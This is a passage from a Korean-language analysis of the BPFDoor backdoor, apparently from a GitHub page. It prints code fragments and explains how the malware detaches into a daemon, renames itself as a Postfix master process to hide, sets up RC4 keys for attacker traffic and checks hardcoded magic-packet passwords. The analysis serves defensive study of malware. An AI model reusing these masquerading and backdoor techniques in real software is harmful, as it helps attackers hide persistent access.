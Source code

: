     ```c
    // i.
    chdir("/");

    // ii.
    setsid();

    // iii.
    signal(SIGHUP, SIG_DFL);

    // iv.
    memset(argv0, 0, strlen(argv0));
    strcpy(argv0, pname);

    // v.
    prctl(PR_SET_NAME, (unsigned long) pname);
    ```

    1. 작업 디렉터리를 루트 `/`로 변경(Change Directory)
    2. 새로운 세션 생성, 세션의 리더, 제어 터미널과 분리
    3. `SIG_HUP` 시그널(세션 리더가 종료되거나 제어 터미널이 끊길 때 발생)이 호출되면 `SIG_DFL` 기본 동작인 종료를 따르도록 재설정
    4. `arv0`, 즉 `arv[0]` 값을 초기화 후 `pname` 문자열(`/usr/libexec/postfix/master`)로 설정
    5. `prctl()`을 호출하여 `/proc/<pid>/comm` 파일에 기록되는 프로세스 이름을 해당 문자열로 설정

5. **rc4 key 초기화**

    ```c
    rc4_init(mp->pass, strlen(mp->pass), &crypt_ctx);
    rc4_init(mp->pass, strlen(mp->pass), &decrypt_ctx);
    ```

    - BPFDoor는 이후에 공격자와의 통신에서 사용되는 RC4 대칭키 암호화 알고리즘의 key를 초기화하는 과정이다. `magic_packet` 구조체의 멤버 중 `char pass[14]`로 선언되어 있는 변수를 통해 key를 관리한다.
    - `rc4_ctx` 라는 구조체를 정의하여 암호화할 때 사용하는 key인 `crypt_ctx`와 복호화할 때 사용하는 key인 `decrypt_ctx`를 초기화한다.

6. **비밀번호 비교 및 실행**

    ```c
    cmp = logon(mp->pass);
    ```

    - `logon()` 함수를 호출하여 `magic_packet`의 비밀번호인 `mp->pass`의 값에 따라 다른 기능을 수행하도록 한다.
    - `logon()` 함수 내에서는 비밀번호 값이 `cfg.pass` 값인 `justforfun`일 경우에는 `0`을 리턴하고, `cfg.pass2` 값인 `socket`일 경우에는 `1`을 리턴, 둘 다 아닐 경우에는 `2`를 리턴한다.

    ```c
    switch(cmp) {
        case 1:
            ...
        case 0:
            ...
        case 2:
            ...
    }
    exit(0);
    ```
